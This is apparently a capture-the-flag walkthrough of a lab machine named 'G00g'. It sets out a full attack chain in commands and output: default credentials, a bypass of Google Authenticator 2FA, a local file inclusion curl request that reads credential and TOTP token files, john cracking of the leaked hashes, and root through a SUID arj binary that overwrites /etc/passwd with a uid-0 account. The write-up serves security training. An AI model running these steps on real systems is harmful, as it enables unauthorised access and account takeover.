









# G00g

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.144
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 22:36 +08
Nmap scan report for 192.168.202.144
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Web Enum -> Google Auth

Visiting port 80 requires credentials:



`admin:admin` works. Afterwards, we are just greeted by this:



In the comments, there's a hidden directory:



Googling this leads to some Apache 2FA thing using Google Authenticator:



The repository included this interesting bit here:



So within Google Authenticaotr, we can click the Plus sign in the corner:


We can then enter this key:



After adding this, we would get a OTP every 30 seconds as with normal Google Authenticator:


Keying in this 2FA token would grant us access to the web page:


### LFI -> User Creds + Token

The website is obviously vulnerable to some form of exploit. When we run it and view the result, it shows us the results by reading from a file:



This is very obviously vulnerable to LFI, and we can use that to read other files.



There weren't any SSH keys to read for the `fox` user. However, the Github repo did mention that there is an `apache_credentials` file somewhere on this machine.

After some testing, I found in within the `/opt` directory:$ curl -H 'Cookie: 2FA\_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache\_2fa/apache\_credentials' http://192.168.202.144/spool/viewresult.php

```
<pre>admin:$apr1$pa.RhgPO$18S/xeIW24UvBgjVJJXiC1
fox:$apr1$JWr/q2vH$KXhhk03ukqkoXjbOIoUVp/
</pre><a href=javascript:history.back()>Back</a>
```

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
THERESE          (?)     
1g 0:00:00:00 DONE (2023-07-06 22:55) 1.250g/s 257760p/s 257760c/s 257760C/s abhijeet..ROSALINDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

However, we cannot just SSH in:

```
$ ssh fox@192.168.202.144                   
(fox@192.168.202.144) Password: 
(fox@192.168.202.144) Verification code: 
```

The user has 2FA too! So we need to steal the `tokens.json` file as well.

```
$ curl -H 'Cookie: 2FA_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache_2fa/tokens.json' http://192.168.202.144/spool/viewresult.php
<pre>{
  "admin": "ND4LKCSFMUQISO6CBZQATLDP",
  "fox": "RTW2ARWLJZRWUCN54UO22FDQ6I"
}
```

Afterwards, we can do the same thing with Google Authenticator to get a 2FA code to `ssh` in:



## Privilege Escalation

I ran a `linpeas.sh` to find possible vectors, and it picked up on one SUID binary:

```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
<TRUNCATED>
-rwsr-sr-x 1 root root       378K Feb 10  2019 /usr/bin/arj
<TRUNCATED>
```

GTFOBins has an entry for this:



To exploit this, we can add a new `root` user. First, we can generate a new `passwd` file with our new user and hash, then overwrite it using `arj`.

```bash
$ openssl passwd -1 hello123
$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/

cp /etc/passwd passwd
echo 'ez:$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/:0:0::/root:/bin/bash' >> passwd
arj a "passwd" "passwd"
arj e "passwd.arj" "/etc"
```



Rooted!
